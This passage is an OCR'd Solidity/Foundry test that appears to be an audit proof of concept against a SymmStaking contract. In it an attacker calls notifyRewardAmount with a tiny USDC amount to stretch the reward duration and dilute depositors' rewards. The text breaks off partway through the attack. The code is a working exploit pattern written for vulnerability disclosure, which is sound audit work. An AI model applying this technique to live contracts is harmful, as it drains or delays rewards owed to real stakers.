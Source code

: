 ```Solidity
    uint256 initialReward = 100e6;
    uint256 startTime = 10_000;
    uint256 duration;

	function setUp() public {
        vm.warp(startTime);
		SymmStaking impl = new SymmStaking();
		TransparentUpgradeableProxy proxy = new TransparentUpgradeableProxy(
			address(impl),
			address(owner),
			abi.encodeWithSelector(impl.initialize.selector, owner, symm)
		);
		staking = SymmStaking(address(proxy));

        duration = staking.DEFAULT_REWARDS_DURATION();
        
        // set initial symm balance for victim and attacker
		deal(symm, victim, initialBalance);
        deal(symm, victim2, initialBalance);
        deal(symm, victim3, initialBalance);
        deal(symm, victim4, initialBalance);
		deal(symm, attacker, initialBalance);

        // set initial usdc balance for owner
        deal(usdc, owner, initialReward);

        // set initial usdc balance for attacker
        deal(usdc, attacker, 10e6);
        
        vm.startPrank(owner);
        // whitelist usdc and symm for reward
        staking.configureRewardToken(usdc, true);
        staking.configureRewardToken(symm, true);
        // approve usdc for staking contract then notifyRewardAmount
        IERC20(usdc).approve(address(staking), initialReward);
        address[] memory tokens = new address[](1);
        tokens[0] = usdc;
        uint256[] memory rewards = new uint256[](1);
        rewards[0] = initialReward;
        staking.notifyRewardAmount(tokens, rewards);
        vm.stopPrank();
	}

    function test_PoC_callNotifyRewardAmountIncreaseDuration() public {
        // victim deposit token in hope of getting reward
        vm.startPrank(victim);
        IERC20(symm).approve(address(staking), initialBalance);
        staking.deposit(initialBalance, victim);

        // fast forward 50% of the duration
        vm.warp(startTime + duration / 2);
        uint256 victimFirstReward = staking.earned(victim, usdc);
        uint256 balanceBefore = IERC20(usdc).balanceOf(victim);
        staking.claimRewards();
        uint256 balanceAfter = IERC20(usdc).balanceOf(victim);
        console.log("victim first half reward: ", victimFirstReward);
        assertEq(balanceAfter - balanceBefore, victimFirstReward);

        // attacker call notifyRewardAmount with small amount just to increase the duration
        vm.startPrank(attacker);
        IERC20(usdc).approve(address(staking), 1e6);
        address[] memory tokens = new address[](1);
        tokens[0] = usdc;
```